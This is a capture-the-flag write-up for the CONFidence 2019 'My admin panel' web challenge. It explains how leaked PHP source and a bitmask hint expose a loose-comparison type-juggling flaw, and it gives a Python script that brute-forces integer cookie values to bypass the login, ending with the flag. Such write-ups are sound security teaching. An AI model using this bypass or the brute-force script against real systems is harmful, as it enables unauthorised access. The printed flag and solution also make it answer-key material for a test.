 # CONFidence CTF Teaser 2019 – My admin panel

* **Category:** web, warmup
* **Points:** 51

## Challenge

> I think I've found something interesting, but I'm not really a PHP expert. Do you think it's exploitable?
>
> https://gameserver.zajebistyc.tf/admin/

## Solution

The website has directory listing active, connecting to it two files are listed:
* `login.php`
* `login.php.bak`

The first page prints the message: `Not authenticated.`.

The [second file](login.php.bak) contains the PHP source code.

```php
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

Analyzing it, you can discover that a cookie named `otadmin` must be passed and its format must follow the following regex: `/^{"hash": [0-9A-Z\"]+}$/`.

A correct value for that cookie can be the following: `{"hash": "T35T"}`.

If the passed value for that cookie is different from the MD5 hash of the `$cfg_pass` variable, a hint is given. You can use the correct value crafted befor to print it.

```
I CAN EVEN GIVE YOU A HINT XD 0006464640640064000646464640006400640640646400
```

The hint is obtained by the following snippet.

```
    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }
```

Where `strlen(MD5('xDdddddd'))` is equals to 32 (i.e. the length of MD5 hashes is 32).

In that snippet, an AND operation is performed between the ASCII value of each char and the constant `0xC0` (i.e. `11000000`). Considering that the first three chars of the hint are 0, it means that the first original chars of the hash were numbers. That is due to the fact in the ASCII representation of numbers, the first most significant bits are `00` and the AND operation for that bits is performed with `11`.

So, the problem could be located in a *type juggling* in this comparison:

```
$session_data['hash'] != strtoupper(MD5($cfg_pass))
```

To exploit it, you have to guess the numbers at the beginning of the MD5 string.

A [Python script](my-admin-panel.py) can be written to exploit this task.

```python
import time
import random
import os
import urllib2

target_url = "https://gameserver.zajebistyc.tf/admin/login.php"
cookie_name = "otadmin"
cookie_value = "{{\"hash\": {}}}"

# Check cookie method.
def check_cookie(value_to_check):
   
   # Trying cookie.
   cookie = "{}={}".format(cookie_name, cookie_value.format(value_to_check))
   print "[*] Trying cookie {}".format(cookie)      
   req = urllib2.Request(target_url)
   req.add_header("Cookie", cookie)
   req.add_header("User-Agent", "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);")
   page = urllib2.urlopen(req)
   content = page.read()
      
   # Flag found.
   if "p4{" in content:
      print content
      return True
   else:
      return False

# Main method.
for i in range(1, 1000):

   try:
      
      if check_cookie(i):
         break
   
   except urllib2.HTTPError as err:
      print "[*] Response > {}".format(err.code)
      break

```

With the cookie `otadmin={"hash": 389}` you will discover the flag.

```
p4{wtf_php_comparisons_how_do_they_work}
```